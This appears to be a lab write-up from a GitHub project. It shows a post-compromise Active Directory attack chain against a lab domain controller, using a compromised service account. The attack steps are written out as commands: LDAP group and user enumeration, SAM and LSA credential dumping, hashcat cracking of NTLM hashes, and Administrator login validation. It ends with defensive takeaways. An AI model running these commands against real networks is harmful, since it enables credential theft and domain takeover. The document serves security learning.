





# Project 5 - Domain Enumeration & Privilege Escalation

## Overview

This project demonstrates how a compromised service account can be leveraged to enumerate Active Directory, extract sensitive credential material, and validate administrative access on a domain controller.

The objective is to identify high-value groups and users, retrieve credential data from the target system, crack recovered hashes offline, and confirm administrative access using recovered credentials.

---

## Lab Environment

- Attacker Machine: Kali Linux  
- Target System: HYDRA-DC (192.168.208.130)  
- Domain: MARVEL.local  

---

## Domain Group Enumeration

LDAP-based enumeration was performed using the compromised SQLService account to identify domain groups.

```bash
nxc ldap 192.168.208.130 -u SQLService -p 'password1234' --groups
```



**Key findings:**
- Multiple domain groups identified  
- High-value groups such as Domain Admins and Enterprise Admins discovered  

---

## Domain User Enumeration

Further enumeration was conducted to identify domain users.

```bash
nxc ldap 192.168.208.130 -u SQLService -p 'password1234' --users
```



**Key findings:**
- Administrator account identified  
- Service accounts present (SQLService)  
- Multiple domain users discovered  

---

## Credential Dumping (SAM & LSA)

Using the compromised credentials, credential dumping was performed against the domain controller.

### SAM Dump

```bash
nxc smb 192.168.208.130 -u SQLService -p 'password1234' --sam
```



---

### LSA Secrets Dump

```bash
nxc smb 192.168.208.130 -u SQLService -p 'password1234' --lsa
```



**Key findings:**
- NTLM password hashes retrieved  
- LSA secrets exposed  
- Sensitive authentication material accessible  

---

## Hash Cracking

Recovered NTLM hashes were cracked offline using Hashcat.

```bash
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```



**Result:**
- Administrator password successfully recovered  

---

## Administrative Access Validation

Using the recovered credentials, authentication as Administrator was performed.

```bash
nxc smb 192.168.208.130 -u Administrator -p 'RecoveredPassword'
```


**Result:**
- Successful authentication as Administrator  
- Full administrative access to the domain controller confirmed  

---

## Conclusion

This project demonstrates a complete attack chain from credential access to administrative compromise.

**Key takeaways:**
- Over-privileged service accounts present significant risk  
- LDAP enumeration reveals critical domain structure  
- Credential dumping enables further attack progression  
- Weak passwords allow successful offline cracking  
- Administrative access can be achieved without traditional exploitation  

This highlights the importance of strong credential management, least privilege enforcement, and monitoring of authentication activity within Active Directory environments.

